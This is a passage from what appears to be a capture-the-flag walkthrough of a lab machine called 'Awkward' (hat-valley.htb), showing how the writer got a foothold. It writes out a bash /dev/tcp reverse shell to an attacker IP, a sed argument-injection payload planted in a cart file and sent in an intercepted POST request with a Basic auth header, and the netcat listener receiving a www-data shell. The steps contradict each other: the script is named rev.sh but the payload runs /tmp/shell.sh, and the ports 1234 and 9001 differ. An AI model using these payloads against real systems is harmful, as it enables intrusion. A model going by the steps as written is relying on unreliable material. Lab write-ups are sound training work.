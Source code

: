 ```
bean@awkward:/var/www/store/cart$ ls
309e-c358-b85-119e
bean@awkward:/var/www/store/cart$ cat 309e-c358-b85-119e
***Hat Valley Cart***
item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
bean@awkward:/var/www/store/cart$ 
```
5) First we are going to create a file rev.sh in /tmp that makes us a reverse shell
```
bean@awkward:/var/www/store/cart$ cd /tmp
bean@awkward:/tmp$ nano rev.sh
bean@awkward:/tmp$ cat rev.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.234/1234 0>&1
bean@awkward:/tmp$ chmod +x rev.sh
bean@awkward:/tmp$ 
```
6) We need to modify the file that was created, but we don't have permission so we make a copy of it, delete it and rename the copy
```
bean@awkward:/var/www/store$ rm -rf cart/c32c-8d49-752-e3d9 
bean@awkward:/var/www/store/cart$ nano cart/309e-c358-b85-119e
bean@awkward:/var/www/store/cart$ cat cart/309e-c358-b85-119e
```
7) Now we modify it so that sed executes the revshell for us, it would look like this
```
bean@awkward:/var/www/store/cart$ nano 309e-c358-b85-119e 
bean@awkward:/var/www/store/cart$ cat 309e-c358-b85-119e
***Hat Valley Cart***
item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
```
8) On the web we go to the cart and delete the item but we intercept it with burpsuite
9) We add to the request the same as the file but we convert the space to +
```http
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
Content-Length: 50
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://store.hat-valley.htb
Referer: http://store.hat-valley.htb/cart.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

item=1'+-e+"1e+/tmp/shell.sh"+/tmp/shell.sh+'&user=309e-c358-b85-119e&action=delete_item
```
10) With Burp Suite by giving forward, the script is executed and we receive the shell as www-data:
``` 
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.11.185] 41716
bash: cannot set terminal process group (1355): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/store$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@awkward:~/store$ hostname -I
hostname -I
```